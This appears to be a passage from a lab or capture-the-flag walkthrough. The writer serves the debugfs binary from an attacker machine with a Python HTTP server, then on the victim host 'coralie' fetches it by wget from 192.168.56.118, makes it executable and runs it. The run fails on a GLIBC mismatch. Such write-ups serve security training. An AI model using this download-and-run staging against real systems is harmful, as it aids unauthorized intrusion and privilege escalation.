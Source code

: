 `find / -iname *debugfs* 2> /dev/null`:
```
/usr/lib/modules/6.1.0-18-amd64/kernel/net/l2tp/l2tp_debugfs.ko
/usr/lib/modules/6.1.0-18-amd64/kernel/drivers/platform/chrome/cros_ec_debugfs.ko
/usr/lib/modules/6.1.0-21-amd64/kernel/net/l2tp/l2tp_debugfs.ko
/usr/lib/modules/6.1.0-21-amd64/kernel/drivers/platform/chrome/cros_ec_debugfs.ko
/usr/share/man/fr/man8/debugfs.8.gz
/usr/share/man/fr/man8/debugfs.reiser4.8.gz
/usr/share/man/fr/man8/debugfs.reiserfs.8.gz
/usr/share/man/man8/debugfs.8.gz
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`which debugfs`:
```
/usr/sbin/debugfs
```

`file /usr/sbin/debugfs`:
```
/usr/sbin/debugfs: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d3ce3fff8611a567435d85bc065d0fc196261fe3, for GNU/Linux 3.2.0, stripped
```

`python3 -m http.server 80 -d /usr/sbin/`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... ←
```

![Victim: coralie](https://img.shields.io/badge/Victim-coralie-64b5f6?logo=linux&logoColor=white)

`wget http://192.168.56.118/debugfs`:
```
--2024-10-16 14:09:40--  http://192.168.56.118/debugfs
Connecting to 192.168.56.118:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 251728 (246K) [application/octet-stream]
Saving to: ‘debugfs’

debugfs                                         100%[====================================================================================================>] 245.83K  --.-KB/s    in 0.006s  

2024-10-16 14:09:40 (41.9 MB/s) - ‘debugfs’ saved [251728/251728] ←
```

`chmod u+x ./debugfs`

`./debugfs`:
```
./debugfs: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.38' not found (required by ./debugfs) ←
```

`rm ./debugfs`
